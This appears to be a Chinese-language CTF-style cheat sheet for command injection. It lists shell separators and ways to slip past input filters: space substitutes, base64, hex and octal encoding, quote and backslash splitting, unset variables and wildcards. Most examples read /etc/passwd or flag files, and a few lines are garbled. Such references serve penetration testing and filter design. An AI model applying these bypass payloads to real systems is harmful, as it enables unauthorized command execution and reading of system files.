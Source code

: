 # 命令注入
命令|windows|linux
-|-|-
ping 127.0.0.1&#124;ipconfig;|只执行后面|只执行后面
ping 127.0.0.1&#124;&#124;ipconfig;|先执行前面，前面出错才会执行后面|先执行前面，前面出错才会执行后面
ping 127.0.0.1&ipconfig|两个全部执行并且任意一个出错不影响另外一个命令执行|两个全部执行并且任意一个出错不影响另外一个命令执行，有时候需要多试几次才可以成功
ping 127.0.0.1&&ipconfig|两个命令必须全部正确才可执行全部|后面出错不影响前面的语句，前面出错就无法执行所有的语句

# 空格替换
- `<`
- `${IFS}`
- `$IFS%9`
- `%09`

# base64绕过
- echo 'cat' | base64
- echo 'base64' | base64 -d` flag.txt

# 连字符 ''  ""  ``  \
- cat fl'a'g.txt

# 拼接绕过
- $a=c;$b=at;$a$b /flag.txt

# cat被过滤
less more tac head tail sort uniq 
## 通配符绕过/bin/base64
- /???/??s??4 /flag.txt 然后再解码base64`echo MTg5c2hoZGFpb3NkYXVpb2gyODkxaW9xd2U5MDEyaAo=|base64 -d

# RCE绕过

cmd1 | cmd2 只执行cmd2

cmd1 || cmd2 只有当cmd1执行失败后，cmd2才被执行

cmd1 & cmd2 先执行cmd1，不管是否成功，都会执行cmd2

cmd1 && cmd2 先执行cmd1，cmd1执行成功后才执行cmd2，否则不执行cmd2

(Linux还支持分号  ;  )cmd1;cmd2 按顺序依次执行，先执行cmd1再执行cmd2

1. 变量绕过

a=c;b=a;c=t;

$a$b$c /etc/passwd

2. 16编码绕过

"\x73\x79\x73\x74\x65\x6d"("cat /etc/passwd");

3. oct编码绕过

$(printf "\154\163")//ls命令

4. 拼接绕过

sy.(st).em)(whoami);

c''a''t /etc/passwd//单引

c""a""t /etc/passwd//双引

c``a``t /etc/passwd/反单引

c\a\t /etc/passwd//反斜线

$*和$@，$x(x代表1-9)，${x}(x>=10)

比如 ca${21}t a.txt 表示 cat a.txt 在没有传入参数的情况下，这些特殊字符默认为空，如下:

wh$1oami

who$@ami

whoa$*mi

5. 利用未赋值变量绕过

cat /etc$u/passwd

cat$u /etc/passwd

6. 通配符绕过

cat /passwd：

??? /e??/?a????

cat /e*/pa*